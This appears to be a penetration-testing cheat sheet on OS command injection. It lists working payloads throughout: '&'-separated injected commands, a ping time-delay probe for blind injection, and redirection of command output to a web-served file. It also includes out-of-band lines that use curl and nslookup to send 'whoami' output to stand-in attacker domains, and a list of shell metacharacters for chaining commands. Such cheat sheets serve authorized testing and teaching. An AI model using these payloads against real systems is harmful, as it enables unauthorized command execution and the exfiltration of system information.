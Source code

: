 # OS command injection

### <mark style="color:yellow;">Command injection</mark>

```sh
& echo qwerty &
```

Placing `&` after the injected command is generally useful because it separates the injected command from whatever follows the injection point

### <mark style="color:yellow;">Blind OS command</mark>

**Detection**

```sh
# 10 sec. time delay
& ping -c 10 127.0.0.1 &
```

**Exploit**

1. Redirecting output. Note: you must have write permission

```sh
& whoami > /var/www/static/whoami.txt &
curl https://website.com/whoami.txt
```

2. Out-of-band techniques

```sh
& curl `whoami`.webserver-attacker.com & # HTTP traffic may be blocked
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

### <mark style="color:yellow;">Bypass restriction</mark>

* There are so many ways ...
  * [https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)

### <mark style="color:yellow;">Metacharacters</mark>

```sh
# Windows & Unix
&
&&
|
||

# Unix
;

# Unix inline execution
`command`
$(command)
```
